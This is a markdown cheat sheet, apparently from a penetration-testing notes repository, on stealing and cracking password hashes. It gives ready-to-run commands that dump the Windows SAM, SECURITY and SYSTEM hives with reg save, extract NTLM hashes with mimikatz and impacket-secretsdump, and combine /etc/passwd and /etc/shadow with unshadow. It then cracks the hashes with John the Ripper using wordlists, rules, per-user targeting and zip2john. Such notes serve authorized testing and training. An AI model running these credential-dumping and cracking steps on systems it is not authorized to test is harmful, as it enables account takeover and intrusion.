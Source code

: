 # John the Ripper

## Windows

### Obtain sam, system and security files
    reg save HKLM\sam sam
    reg save HKLM\security security
    reg save HKLM\system system

### Obtain hashes using mimikatz
    privilege::debug
    token::elevate
    lsadump::sam /sam:sam /system:system

Copy and paste NTLM hash(es) into a text file

### Obtain hashes using Impacket
    impacket-secretsdump -sam sam -system system LOCAL > hashes.txt

### Hit it with john
    john --wordlist=passwords.txt --format=NT hashes.txt


### Single password hash 
    john --format=lm hash.txt

## Linux
### Unshadow and crack:
    unshadow /etc/passwd /etc/shadow > unshadowed.txt
    john -single --format=crypt unshadowed.txt

### With custom wordlist and mangling:
    john --wordlist=passwords.txt --format=crypt unshadowed.txt
    john --wordlist=passwords.txt --rules --format=crypt unshadowed.txt


### Cracking for specific shells (1) and users (2)
    john --wordlist=passwords.txt --rules --shell=bash,sh unshadowed.txt --format=crypt
    john --wordlist=passwords.txt --rules --users=admin,mark unshadowed.txt --format=crypt

### Restart a session aborted with Ctrl-C:
    john -restore

### Show cracked passwords:
    john --show unshadowed.txt


## Password protected zip
    zip2john archive.zip > hash.txt
    john hash.txt